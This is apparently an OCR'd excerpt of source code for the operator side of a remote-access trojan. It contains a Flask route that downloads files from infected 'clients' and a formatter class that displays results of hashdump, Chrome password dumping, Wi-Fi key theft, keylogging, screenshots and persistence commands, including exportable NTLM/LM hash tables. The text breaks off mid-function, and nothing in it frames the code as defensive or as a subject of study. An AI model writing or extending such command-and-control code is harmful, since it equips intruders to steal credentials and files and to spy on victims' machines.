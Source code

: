 ```python

@app.route('/api/elite/download/<client_id>/<file_path>')
def download_elite_file(client_id, file_path):
    """Handle elite file downloads with chunking"""
    
    client = get_client(client_id)
    if not client:
        return jsonify({'error': 'Client not found'}), 404
    
    # Use elite download
    executor = EliteCommandExecutor(client)
    file_data = executor.execute('download', file_path)
    
    if file_data.get('success'):
        return send_file(
            io.BytesIO(file_data['data']),
            as_attachment=True,
            download_name=os.path.basename(file_path)
        )
    else:
        return jsonify({'error': file_data.get('error')}), 500
```

### D. Create Result Handlers
**File:** `Core/result_formatters.py`

```python
class EliteResultFormatter:
    """Format elite command results for frontend display"""
    
    @staticmethod
    def format_for_dashboard(command, raw_result):
        """Convert raw elite command output to dashboard-friendly format"""
        
        formatters = {
            'hashdump': EliteResultFormatter._format_hashes,
            'chromedump': EliteResultFormatter._format_chrome,
            'wifikeys': EliteResultFormatter._format_wifi,
            'ls': EliteResultFormatter._format_ls,
            'ps': EliteResultFormatter._format_processes,
            'systeminfo': EliteResultFormatter._format_sysinfo,
            'screenshot': EliteResultFormatter._format_image,
            'keylogger': EliteResultFormatter._format_keylog,
            'persistence': EliteResultFormatter._format_persistence
        }
        
        formatter = formatters.get(command, EliteResultFormatter._format_generic)
        return formatter(raw_result)
    
    @staticmethod
    def _format_hashes(result):
        """Format password hashes for display"""
        return {
            'type': 'table',
            'columns': ['Username', 'RID', 'NTLM Hash', 'LM Hash'],
            'data': result.get('hashes', []),
            'exportable': True,
            'export_format': 'csv'
        }
    
    @staticmethod
    def _format_chrome(result):
        """Format Chrome passwords for display"""
```